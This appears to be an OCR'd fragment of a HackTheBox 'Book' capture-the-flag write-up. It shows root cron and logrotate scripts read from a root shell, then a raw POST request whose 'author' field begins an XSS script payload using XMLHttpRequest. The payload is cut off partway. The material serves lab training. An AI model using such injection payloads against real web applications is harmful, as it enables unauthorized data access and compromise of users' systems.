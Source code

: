 **cron_root:**

```
root@book:~# cat cron_root 
#!/usr/bin/expect -f
spawn ssh -i .ssh/id_rsa localhost
expect eof
exit
```

**log.sh:**

```
root@book:~# cat log.sh 
#!/bin/sh
/usr/sbin/logrotate -f /root/log.cfg
```




POST XSS FORM:
```

POST /collections.php HTTP/1.1

Host: book.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://book.htb/collections.php

Content-Type: multipart/form-data; boundary=---------------------------1216109310209138377833924362

Content-Length: 435247

Connection: close

Cookie: PHPSESSID=e3msik615k05t07cm290b9gdc8

Upgrade-Insecure-Requests: 1

-----------------------------1216109310209138377833924362

Content-Disposition: form-data; name="title"


-----------------------------1216109310209138377833924362

Content-Disposition: form-data; name="author"


<script>

x=new XMLHttpRequest;

x.onload=function(){

document.write(this.responseText)

};

```